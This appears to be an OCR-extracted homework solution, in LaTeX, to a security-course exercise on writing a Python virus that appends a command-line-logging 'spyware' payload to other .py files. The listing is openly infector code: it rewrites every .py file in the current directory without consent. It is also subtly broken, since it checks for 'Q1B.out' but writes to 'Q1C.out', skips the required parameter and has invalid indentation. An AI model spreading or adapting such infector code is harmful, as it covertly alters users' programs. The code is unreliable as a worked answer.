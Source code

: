 \documentclass{article}
\begin{document}
\subsection*{Part B}
Next, write another script, Q1B.py, that receives as parameter 
the name of a .py file in the current directory (including the .py), 
e.g., x.py. Next, Q1B.py checks if the file contains a Python script, 
and if so, if the script does not yet contain the Virus. If both checks 
are Ok, Q1B re-writes the file (x.py), so that the new “x.py” will 
contain a Python script with the same functionality as of the original x.py, 
except that the new script will also perform the following simple spyware 
payload functionality. Specifically, whenever the script in the new “x.py” is run, 
it would append, to the end of a file called Q1B.out, a line containing the entire 
command line used to invoke it, i.e., the file/script name (“x.py”) followed by the 
arguments (parameters) with which the script (“x.py”) was run, if any. If Q1B.out does 
not exist when the new “x.py” is run, then “x.py” should create Q1B.out.
\\\\
We can create a script for this problem by following the same steps as
in part A. We can get all the files in the directory like before and put them
in a list. We can then use a list comprehension to get all the files that end
with ".py". We can then check every file in the list to see if it contains
the virus by checking if the file contains the string "Q1B.out". If it does
then we can skip that file. If it does not then we can open the file and
append to the end of the file the commands to write the exececuted command
to the Q1B.out file. 

\begin{lstlisting}[language=Python]
import os
import sys

if __name__ == '__main__':
directory = os.getcwd()
files = os.listdir(directory)
py_files = [file for file in files if file.endswith(".py")]
for file in py_files:
    with open(file, "r") as f:
        lines = f.readlines()
        for line in lines:
            if "Q1B.out" in line:
                break
        else:
            with open(file, "a") as f:
                f.write("import sys\n")
                f.write("with open('Q1C.out', 'a') as f:\n")
                f.write("   f.write('\\n')\n")
                f.write("   f.write(str(sys.argv))\n")
\end{lstlisting}
\end{document}
